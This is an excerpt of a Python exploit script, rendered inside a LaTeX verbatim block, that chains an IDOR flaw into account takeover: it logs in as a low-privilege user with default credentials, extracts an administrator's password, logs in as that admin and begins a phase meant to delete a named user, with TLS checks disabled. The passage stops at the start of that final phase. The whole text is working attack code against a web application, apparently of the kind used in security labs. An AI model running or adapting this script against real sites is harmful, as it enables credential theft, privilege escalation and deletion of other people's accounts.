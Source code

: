 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}
    args = parser.parse_args()

    # Normalize URL
    base_url = args.url.rstrip('/')
    if not base_url.startswith(('http://', 'https://')):
        base_url = 'https://' + base_url

    print(f"[*] Target: {base_url}")
    print(f"[*] Admin to compromise: {args.admin_user}")
    print(f"[*] User to delete: {args.target}")

    if args.no_proxy:
        global PROXIES
        PROXIES = {}
        print("[*] Proxy disabled")

    # ============================================
    # PHASE 1: Login as low-privilege user
    # ============================================
    print("\n" + "="*60)
    print("PHASE 1: Authentication (Low-Privilege User)")
    print("="*60)

    user_session = requests.Session()
    user_session.verify = False
    user_session.headers.update({
        'User-Agent': 'IDORPasswordExploit/2.0'
    })

    if not login(user_session, base_url, DEFAULT_USERNAME, DEFAULT_PASSWORD):
        print("[-] Failed to login as low-privilege user. Exiting.")
        sys.exit(1)

    # ============================================
    # PHASE 2: Exploit IDOR to get admin password
    # ============================================
    print("\n" + "="*60)
    print("PHASE 2: IDOR Exploitation + Password Extraction")
    print("="*60)

    admin_password = exploit_idor_get_password(
        user_session,
        base_url,
        args.admin_user
    )

    if not admin_password:
        print("[-] Failed to extract admin password. Exiting.")
        sys.exit(1)

    # ============================================
    # PHASE 3: Login as administrator
    # ============================================
    print("\n" + "="*60)
    print("PHASE 3: Administrator Authentication")
    print("="*60)

    admin_session = requests.Session()
    admin_session.verify = False
    admin_session.headers.update({
        'User-Agent': 'IDORPasswordExploit/2.0'
    })

    if not login(admin_session, base_url, args.admin_user, admin_password):
        print("[-] Failed to login as admin. Password may be wrong.")
        sys.exit(1)

    # ============================================
    # PHASE 4: Execute privileged action
    # ============================================
    print("\n" + "="*60)
    print("PHASE 4: Privileged Action Execution")
    print("="*60)


\end{verbatim}
\end{document}
